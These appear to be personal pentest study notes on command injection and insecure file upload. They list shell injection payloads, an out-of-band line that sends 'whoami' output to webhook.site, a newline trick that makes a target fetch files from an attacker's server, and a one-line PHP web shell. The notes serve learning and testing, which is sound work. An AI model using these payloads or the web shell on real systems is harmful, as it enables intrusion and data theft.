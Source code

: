 ### Command Injection
<span style="background:#fff88f">serious vuln:</span>
bc if you find it => you can:
                  - <span style="color:#00b050">compromise the entire app</span>
                  - <span style="color:#00b050">compromise the host</span> 
how it works:
- the app takes an input from the user
- pass that into a -->  function 
- the function --> executes it as code

#### Website
[[cheat#AppSecExplained]]
#### Basic command injection
`; ls -la`
`&& ls -la`
`; ls -la #`
`| ls -la`
```bash
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

```bash
& nslookup webhook.site/<id>?`whoami` &     -->  out of band testing
```

>[!tips]
>if you have a bad formatted output
>=>
>press `CTRL+U` in the page to see -->  the source code
>=>
>to see also better -->  the output

#### Payload
[[cheat#Payload All The Things]]

>[!tips] Best Practice
>- use the full path for binaries  (ex `/bin/sh`)
>- use a different port (not 4444) -->  bc something fails
>	- try common port -->  80/8080/443

#### Trigger new line
`python3 -m http.server 8080` -->  setup a web server from the attacker
`https://google.com \n wget 172.17.0.1:8080/test`  -->  try to trigger a new line and retrieve 
                                                   something from the webserver

### Insecure file upload
#### Bypass files check (that is only client side)
[[Notes_ETH#Basic Bypass 0x01]]

##### Send a PHP shell
`<?php system($_GET['cmd']); ?>`
`$_GET` -->  this is going to get the value of the parameter inside the `[]` and send a GET request
`system()` -->  function that executes what it has inside
